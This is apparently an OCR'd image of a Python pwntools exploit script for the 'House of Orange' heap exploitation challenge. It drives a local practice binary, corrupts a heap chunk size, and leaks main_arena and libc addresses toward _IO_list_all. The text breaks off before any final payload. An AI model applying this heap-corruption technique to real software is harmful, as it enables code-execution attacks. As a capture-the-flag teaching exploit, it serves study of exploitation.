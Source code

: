 

exp：

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def build_the_house(exp_file, name_len, name, price, color):
    exp_file.recvuntil("Your choice :")
    exp_file.sendline(str(1))
    exp_file.recvuntil("Length of name :")
    exp_file.sendline(str(name_len))
    exp_file.recvuntil("Name :")
    exp_file.sendline(name)
    exp_file.recvuntil("Price of Orange:")
    exp_file.sendline(str(price))
    exp_file.recvuntil("Color of Orange:")
    exp_file.sendline(str(color))


def see_the_house(exp_file):
    exp_file.recvuntil("Your choice :")
    exp_file.sendline(str(2))


def upgrade_the_house(exp_file, name_len, name, price, color):
    exp_file.recvuntil("Your choice :")
    exp_file.sendline(str(3))
    exp_file.recvuntil("Length of name :")
    exp_file.sendline(str(name_len))
    exp_file.recvuntil("Name:")
    exp_file.send(name)
    exp_file.recvuntil("Price of Orange:")
    exp_file.sendline(str(price))
    exp_file.recvuntil("Color of Orange:")
    exp_file.sendline(str(color))


def main():
    debug = 1
    if debug:
        exp_file = process("/home/who/Desktop/how2heap/houseoforange")
        elf_file = ELF("/home/who/Desktop/how2heap/houseoforange")
        libc_file = ELF("/home/who/Desktop/libc_l64.so.6")
        main_arena_offset = 0x3C4B20
        # context.log_level = "debug"

    build_the_house(exp_file, 0x10, "a"*0xf, 30, 1)
    payload_1 = "b" * 0x10
    payload_1 += p64(0x0) + p64(0x21)
    payload_1 += p64(0x0000001f0000001e) + p64(0x0)
    payload_1 += p64(0x0) + p64(0xfa1)
    upgrade_the_house(exp_file, 0x40, payload_1, 30, 2)
    build_the_house(exp_file, 0x1000, payload_1, 30, 3)

    # leak heap_addr and leak main_arena
    build_the_house(exp_file, 0xe90, "a"*0x7, 30, 4)
    see_the_house(exp_file)
    recv_value = exp_file.recvuntil("Price of orange :").split("a"*0x7)[1][1:7]
    main_arena_addr = u64(recv_value + "\x00"*2) - 1640
    libc_addr = main_arena_addr - main_arena_offset
    _IO_list_all_addr = libc_addr + libc_file.symbols['_IO_list_all']
```